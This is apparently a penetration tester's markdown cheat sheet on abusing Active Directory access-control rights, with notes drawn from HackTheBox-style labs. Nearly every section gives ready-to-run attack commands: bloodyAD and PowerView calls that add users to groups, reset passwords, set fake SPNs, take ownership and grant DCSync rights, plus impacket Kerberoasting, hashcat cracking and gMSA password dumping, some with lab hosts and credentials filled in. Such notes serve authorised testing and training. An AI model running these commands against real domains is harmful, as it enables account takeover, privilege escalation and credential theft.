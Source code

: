 # ACL

### Addself

    Addself abused with Add-DomainGroupMember

Shows security groups that a user can add themselves to.

```shell
bloodyAD --host 10.129.186.179 -d 'tombwatcher.htb' -u 'alfred' -p 'basketball' add groupMember 'infrastructure' 'alfred'
```

### ForceChangePassword

    Abused with Set-DomainUserPassword
    https://github.com/Andre92Marcos/tools/blob/master/powersploit/PowerView.md#functions

Gives us the right to reset a user's password without first knowing their password (should be used cautiously and typically best to consult our client before resetting passwords).

```shell
bloodyAD --host [host_ip] -d [domain_name] -u '[user_name]' -p '[user_password]' set password '[target_user_name]' '[new_password]'
```

### GenericWrite

    Abused with Set-DomainObject

Gives us the right to write to any non-protected attribute on an object. If we have this access over a user, we could assign them an SPN and perform a Kerberoasting attack (which relies on the target account having a weak password set). Over a group means we could add ourselves or another security principal to a given group. Finally, if we have this access over a computer object, we could perform a resource-based constrained delegation attack which is outside the scope of this module.

Example:

```powershell
# Create a cred object of the user the has the GenericWrite acl
$SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)

#Next we'll use Set-DomainObject to set a fake SPN on the target account. We'll create an SPN named acmetesting/LEGIT
Set-DomainObject -credential $Cred -Identity ttimmons -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose
```
```shell
#Finally we can use impacket to get the tgt of th target account
impacket-GetUserSPNs -dc-ip 172.16.8.3 INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons
#And then crack
hashcat -m 13100 ttimmons_tgs /usr/share/wordlists/rockyou.txt
```

It also allows for a ShadowCredentials attack.


### GenericAll

Abused with Set-DomainUserPassword or Add-DomainGroupMember

This grants us full control over a target object. Again, depending on if this is granted over a user or group, we could modify group membership, force change a password, or perform a targeted Kerberoasting attack. If we have this access over a computer object and the Local Administrator Password Solution (LAPS) is in use in the environment, we can read the LAPS password and gain local admin access to the machine which may aid us in lateral movement or privilege escalation in the domain if we can obtain privileged controls or gain some sort of privileged access.


We can also add the dont_req_preauth setting so that the account is ASREProastable:

```
bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k add uac <username_of_target_account> -f DONT_REQ_PREAUTH
```

We can also use bloodyAD to change a target user's password.

### ReadGMSAPassword

It is possible to remotely retrieve the password for the GMSA and convert that password to its equivalent NT hash.gMSADumper.py can be used for that purpose.

```shell
gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
```

### WriteDacl

This abuse can be carried out when controlling an object that has WriteDacl over another object.

Instead of giving full control, the same process can be applied to allow an object to DCSync by adding two ACEs with specific Extended Rights (DS-Replication-Get-Changes and DS-Replication-Get-Changes-All). Giving full control leads to the same thing since GenericAll includes all ExtendedRights, hence the two extended rights needed for DCSync to work.

Using dacledit.py

```
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

```
dacledit.py -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

Using bloodyAd

```
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add genericAll "$TargetObject" "$ControlledPrincipal"
```

```
# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add dcsync "$ControlledPrincipal"
```

Using PowerView

```powershell
$SecPassword = ConvertTo-SecureString '<password_of_controlled_user_with_WriteDacl>' -AsPlainText -Force
#$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<controlled_user>', $SecPassword)
#$Cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity <user_that_is_gonna_receive_the_dcsync_acls> -Rights DCSync
#Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity svc-alfresco -Rights DCSync
```

### WriteOwner

Abuse with bloodyAD and impacket.

First take ownership of account

```shell
    bloodyAD --host <host_ip> -d '<domain_name>' -u '<username>' -p '<password>' set owner <account_name> <name_of_new_owner>
```

Then give owner generic all permissions:

```shell
dacledit.py -action 'write' -rights 'FullControl' -principal '<username_of_new_owner>' -target '<username_being_owned>' '<domain_name>'/'<username_new_owner>':'<password_new_owner>'
```

Owner has full control of target account and can, for instance, change target's password.



### WriteSPN

A targeted kerberoast attack can be performed using targetedKerberoast.py: https://github.com/ShutdownRepo/targetedKerberoast


```shell
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```

The tool will automatically attempt a targetedKerberoast attack, either on all users or against a specific one if specified in the command line, and then obtain a crackable hash. The cleanup is done automatically as well.

The recovered hash can be cracked offline using the tool of your choice.

